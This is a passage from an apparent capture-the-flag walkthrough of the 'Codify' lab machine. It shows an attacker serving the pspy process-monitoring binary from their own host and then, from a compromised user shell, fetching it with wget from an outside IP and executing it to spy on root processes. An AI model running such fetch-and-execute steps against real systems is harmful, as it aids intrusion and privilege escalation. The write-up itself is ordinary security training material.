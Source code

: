 Then we start a python server to host the file.

```shell
labadmin@labmachine:~/codify$ python3 -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
```

Now we fetch the binary to the target machine.

```shell
joshua@codify:~$  wget http://10.10.14.85:8001/pspy64s
--2024-04-13 13:09:53--  http://10.10.14.85:8001/pspy64s
Connecting to 10.10.14.85:8001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1156536 (1.1M) [application/octet-stream]
Saving to: ‘pspy64s’

pspy64s                                      100%[==================================================================================================>]   1.10M   446KB/s    in 2.5s

2024-04-13 13:09:56 (446 KB/s) - ‘pspy64s’ saved [1156536/1156536]

joshua@codify:~$
```

Next we change the file permission to make it executable and execute it.

```shell
joshua@codify:~$ chmod +x pspy64s
joshua@codify:~$ ./pspy64s
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2024/04/13 13:11:59 CMD: UID=0    PID=99     |
2024/04/13 13:11:59 CMD: UID=0    PID=98     |
2024/04/13 13:11:59 CMD: UID=0    PID=97     |
2024/04/13 13:11:59 CMD: UID=0    PID=96     |
...
```
